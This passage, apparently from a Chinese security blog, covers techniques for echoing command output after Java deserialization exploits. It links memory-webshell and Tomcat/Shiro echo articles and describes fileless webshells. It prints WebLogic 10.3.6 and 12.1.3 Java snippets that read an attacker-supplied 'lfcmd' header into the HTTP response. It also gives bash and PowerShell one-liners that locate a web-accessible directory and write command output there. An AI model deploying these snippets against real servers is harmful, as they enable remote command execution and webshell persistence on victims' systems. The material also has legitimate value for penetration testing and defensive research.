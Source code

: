 1. [《基于内存 Webshell 的无文件攻击技术研究》](https://www.anquanke.com/post/id/198886) 主要应用于Spring
2. [《linux下java反序列化通杀回显方法的低配版实现》](https://xz.aliyun.com/t/7307) 将回显结果写入文件操作符
3. [《Tomcat中一种半通用回显方法》](https://xz.aliyun.com/t/7348) 将执行命令的结果存入tomcat的response返回 shiro无法回显
4. [《基于tomcat的内存 Webshell 无文件攻击技术》](https://xz.aliyun.com/t/7388) 动态注册filter实现回显 shiro无法回显
5. [《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3) 通过Thread.currentThread.getContextClassLoader() 拿到request、response回显 tomcat7中获取不到StandardContext
6. [《tomcat不出网回显连续剧第六集》](https://xz.aliyun.com/t/7535) 直接从Register拿到process对应的req

不再赘述了，具体实现文章都有了。值得一提的思路可能就是反序列化不仅仅可以回显，也可以配合反射和字节码动态注册servlet实现无内存webshell。

在weblogic中也有resp回显，具体代码在 [《weblogic_2019_2725poc与回显构造》](https://xz.aliyun.com/t/5299) lufei师傅已经给出来了

weblogic10.3.6

```java
String lfcmd = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getHeader("lfcmd");
weblogic.servlet.internal.ServletResponseImpl response = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getResponse();
weblogic.servlet.internal.ServletOutputStreamImpl outputStream = response.getServletOutputStream();
outputStream.writeStream(new weblogic.xml.util.StringInputStream(lfcmd));
outputStream.flush();
response.getWriter().write("");
```

weblogic12.1.3

```java
java.lang.reflect.Field field = ((weblogic.servlet.provider.ContainerSupportProviderImpl.WlsRequestExecutor)this.getCurrentWork()).getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
HttpConnectionHandler httpConn = (HttpConnectionHandler) field.get(this.getCurrentWork());
httpConn.getServletRequest().getResponse().getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream("xxxxxx"));
```

## 写文件
通过搜索特殊文件路径直接写入web可访问的目录，要熟悉常用中间件容器的目录结构，比如在我web目录有一个特殊的test.html

linux用bash

```bash
// 进入test.html的根目录并执行id命令写入1.txt
cd $(find -name "test.html" -type f -exec dirname {} \; | sed 1q) && echo `id` > 1.txt
```

![image.png](https://y4er.com/img/uploads/20200516003808.png)

windows的powershell

```powershell
$file = Get-ChildItem -Path . -Filter test.html -recurse -ErrorAction SilentlyContinue;$f = -Join($file.DirectoryName,"/a.txt");echo 222 |Out-File $f
```
![image.png](https://y4er.com/img/uploads/20200516009199.png)
